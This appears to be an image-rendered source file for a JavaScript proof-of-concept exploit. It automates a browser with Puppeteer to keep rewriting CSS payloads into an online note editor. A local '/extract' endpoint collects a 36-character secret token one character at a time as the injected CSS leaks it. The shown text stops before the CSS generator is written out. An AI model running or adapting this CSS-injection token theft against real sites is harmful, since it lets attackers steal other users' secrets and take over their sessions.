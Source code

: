 ``` js
    headless: true
  });
  const page = await browser.newPage();
  await page.setViewport({ width: 1280, height: 800 })
  await page.setRequestInterception(true);

  page.on('request', request => {
    const url = request.url()
    // cancel request to self
    if (url.includes(baseUrl)) {
      request.abort()
    } else {
      request.continue()
    }
  });
  app.listen(port, () => {
    console.log(`Listening at http://localhost:${port}`)
    console.log('Waiting for server to get ready...')
    startExploit(app, page)
  })
})()

async function startExploit(app, page) {
  let currentToken = ''
  await page.goto(noteUrl + '?edit');
  
  // @see: https://stackoverflow.com/questions/51857070/puppeteer-in-nodejs-reports-error-node-is-either-not-visible-or-not-an-htmlele
  await page.addStyleTag({ content: "{scroll-behavior: auto !important;}" });
  const initialPayload = generateCss()
  await updateCssPayload(page, initialPayload)
  console.log(`Server is ready, you can open ${noteUrl}?view on the browser`)

  app.get('/extract', (req, res) => {
    const query = req.query.q
    if (!query) return res.end()

    console.log(`query: ${query}, progress: ${query.length}/36`)
    currentToken = query
    if (query.length === 36) {
      console.log('over')
      return
    }
    const payload = generateCss(currentToken)
    updateCssPayload(page, payload)
    res.end()

  })
}

async function updateCssPayload(page, payload) {
  await sleep(300)
  await page.click('.CodeMirror-line')
  await page.keyboard.down('Meta');
  await page.keyboard.press('A');
  await page.keyboard.up('Meta');
  await page.keyboard.press('Backspace');
  await sleep(300)
  await page.keyboard.sendCharacter(payload)
  console.log('Updated css payload, waiting for next request')
}

function generateCss(prefix = "") {
```